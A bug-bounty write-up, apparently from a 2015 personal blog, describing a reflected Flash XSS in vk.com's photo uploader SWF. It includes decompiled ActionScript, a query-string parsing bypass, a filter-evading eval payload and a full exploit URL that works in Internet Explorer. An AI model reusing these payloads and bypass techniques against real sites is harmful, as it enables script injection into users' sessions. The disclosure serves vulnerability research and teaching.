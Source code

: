 Date: 2015-09-30
Slug: interesting-flash-xss-on-vkcom
Title: Interesting flash xss on vk.com
Category: Bugs
Tags: info
image: https://i.imgur.com/wBhOE51.png?1

Every time I try a bug bounty program on **HackerOne**, I first check for flash files on the domains which are in scope. Flash files are always
a good target as far as I am concerned. Approximately three months back, I came across **VK.com** bug bounty. So, when I searched for flash files
I came across one file named **photo_uploader_lite.swf**. So, I opened the file in my browser and the file got downloaded instead of getting played
in the browser. I ran curl to check the response headers and body.

```bash
$ curl -i http://vk.com/swf/photo_uploader_lite.swf

HTTP/1.1 200 OK
Server: Apache
Date: Wed, 30 Sep 2015 14:14:31 GMT
Content-Type: application/zip
Content-Length: 12189
Last-Modified: Tue, 21 Jul 2015 16:43:33 GMT
Connection: keep-alive
ETag: "55ae76b5-2f9d"
Expires: Sun, 04 Oct 2015 14:14:31 GMT
Cache-Control: max-age=345600
Accept-Ranges: bytes
```

The file was being served with content type `application/zip`. When I saw the first few bytes of the flash files I recognized the **CWS** file
header which is present for compressed flash files. This flash file will work as expected when embedded using an *object* or *embed* tag. But for a flash
xss, you cannot embed swf on your domain (No actionscript methods were exposed to JS). At this point of time, I lost hopes but still wanted to
have a look at the decompiled code. The following snippet only consists of the interesting code segments for better readability.

```
#!actionscript
package {
    // some imports
    class ExternalCall {
        public static function Simple(_arg1:String):void{
            Call(_arg1);
        }
        private static function Call(... _args):Boolean{
            var _local2:Array;
            var _local3:RegExp;
            if (ExternalInterface.available){
                _local2 = (_args as Array);
                _local3 = /[^().a-z0-9_]/gi;
                _local2[0] = _local2[0].replace(_local3, "");
                return (ExternalInterface.call.apply(null, _local2));
            };
            return (false);
        }
}
package {
    // some imports
    public class Main extends Sprite {

        public function Main():void{
            super();
            if (stage){
                this.init();
            } else {
                addEventListener(Event.ADDED_TO_STAGE, this.init);
            };
        }
        private function init(_arg1:Event=null):void{
            var mouseMove:* = null;
            var mouseOut:* = null;
            var e = _arg1;
            if (some_mouse_over_condition) {
                mouseOver();
            }
            var mouseOver:* = function ():void{
                ExternalCall.Simple(config.onMouseOver);
                stage.addEventListener(Event.MOUSE_LEAVE, mouseOut);
                insideFrame = true;
            };
        }
    }
}
package {
    // some imports

    public class Config {

        private static var _config:Object = {
            // ... some params ...
            onMouseOver:"debugLog",
            // ... some more params ...
        };

        public static function loadConfig(_arg1:LoaderInfo):Object{
            var parameters:* = null;
            var urlQuery:* = null;
            var urlVars:* = null;
            var key:* = null;
            var loaderInfo:* = _arg1;
            try {
                loaderInfo = LoaderInfo(loaderInfo);
                parameters = loaderInfo.parameters;
                urlQuery = loaderInfo.url.split("?")[1];
                urlVars = new URLVariables(((urlQuery) || ("")));
                for (key in urlVars) {
                    if (parameters[key]){
                        delete parameters[key];
                    };
                };
                setConfig(parameters);
            } catch(error:Error) {
            };
            return (_config);
        }

    }
}
```

The cleansing of parameters object was being done in the method **loadConfig**. So, any parameter provided in the url is removed from the parameters object.
This looked to me like a protection against flash xss because in a legitimate embed scenario parameters are provided through the **param** html tag. Ideally,
this is a really good way but they forgot something. Have a look at **line 66**. They are extracting url parameters by `loaderInfo.url.split("?")[1]`. What
if the url is something like

```
http://vk.com/swf/photo_uploader_lite.swf?h=h?&param1=value1
```

As far as flash player is concerned the parameters object will have the following values

```
h = h?
param1 = value1
```

But the url parameters extracted by swf will have the following values (as they are considering only 1 index element after splitting)

```
h = h
```

So, when they try to remove url parameters from the flash parameters object, only `h` gets removed but not `param1`. So, we successfully got our
url parameter to stay intact in the parameters object. Cool. **Line 39** has a call to `ExternalCall.Simple` with argument `config[onMouseOver]`. Now
ideally if you put anything like `alert(1)`, `confirm(1)` etc.. it will work. For me a bug is something which can be exploitable. Our next challenge
lies at **line 12**. The only allowed characters in your javascript call are `a-z`,`0-9`,`(`,`)`,`.`,`_`. Javascript strings are common part of any
useful payload, but quotes are filtered here. `,` is not allowed which prevents usage of `String.fromCharCode`. `window.location.hash` came to my mind. So,
a working payload will be

```javascript
eval(window.location.hash.substr(1))
```

Now you can place any js code in the fragment part of the url. All this is awesome, but the file is not played by the browser as of now because of the content
type. In this desperate time, my old friend **IE** came to my rescue. If you carefully observe the response headers there is no `X-Content-Type-Options`.
So, when I opened the url in IE, KABOOOOM!!! It sniffed the content type and played the flash file. Ah, the bug is finally exploitable but only in **IE**

```
http://vk.com/swf/photo_uploader_lite.swf?h=h?&onMouseOver=eval(window.location.hash.substr(1))#alert(document.domain);
```

A different payload is in the image

![vk.com Flash XSS](https://i.imgur.com/wBhOE51.png?1)

**HackerOne Report is present [here](https://hackerone.com/reports/66121)** (Not public at the time of writing)
